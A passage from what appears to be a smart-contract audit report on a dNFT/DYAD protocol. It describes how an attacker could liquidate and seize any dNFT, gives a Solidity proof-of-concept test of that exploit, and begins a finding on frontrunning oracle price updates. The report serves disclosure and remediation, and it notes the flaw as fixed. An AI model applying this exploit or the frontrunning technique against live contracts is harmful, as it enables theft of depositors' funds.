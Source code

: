 This can be exploited to steal any dNFT by depositing sufficient ETH to move the pool to greater than 1000x a given depositor, liquidating them and adding a small balance to push them over 0.1% of the pool, and withdrawing the initial deposit.

By sorting all dNFTs from lowest balance to highest, an attacker could perform this attack in such a way as to liquidate every dNFT, assuming sufficient funds (which would be easy to secure via Flash Loans).

Because internal balances are held by the dNFT rather than the user, this would also have the effect of moving the entire value of the vault to the attacker.

**Proof of Concept**

```solidity
function test_CanLiquidateAnyone() public {
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 6000 ether);
    address victim = makeAddr("victim");
    vm.deal(victim, 1000 ether);

    vm.prank(attacker);
    uint id1 = dNft.mint{value: 5 ether}(attacker);

    vm.prank(victim);
    uint id2 = dNft.mint{value: 5 ether}(victim);

    vm.startPrank(attacker);
    dNft.deposit{value: 5000 ether}(id1);
    dNft.liquidate{value: 1 ether}(id2, attacker);
    dNft.redeemDeposit(id1, attacker, 5000 ether);

    assertEq(dNft.ownerOf(id2), attacker);
}
```

**Recommendation**
The logic of the liquidation process needs to be rethought. Besides this possible attack, it seems that liquidating users when their shares fall below 0.1% of the total is likely to lead to unexpected dynamics and doesn't accomplish the goal of keeping the protocol solvent.

**Review**

The new liquidation mechanism (see fix for H-02) only liquidates if withdrawals exceed collateralization ratio, so this attack is no longer possible.

### [H-03] Using oracle provided price for deposits and redemptions allows user to steal funds

New deposits use the \_eth2dyad() function to calculate the exchange rate, which simplifies down to: AMOUNT_OF_ETH \* ORACLE_PRICE_OF_ETH / 1e8;

Similarly, all redeeming uses \_dyad2eth(), which calculates the exchange rate as: AMOUNT_OF_DYAD \* 1e8 / ORACLE_PRICE_OF_ETH;

The problem is that a user can know which direction the oracle price of ETH will move before it does, either through watching the ETH price move in advance of the oracle updating, or watching the mempool for oracle update transactions and frontrunning them.
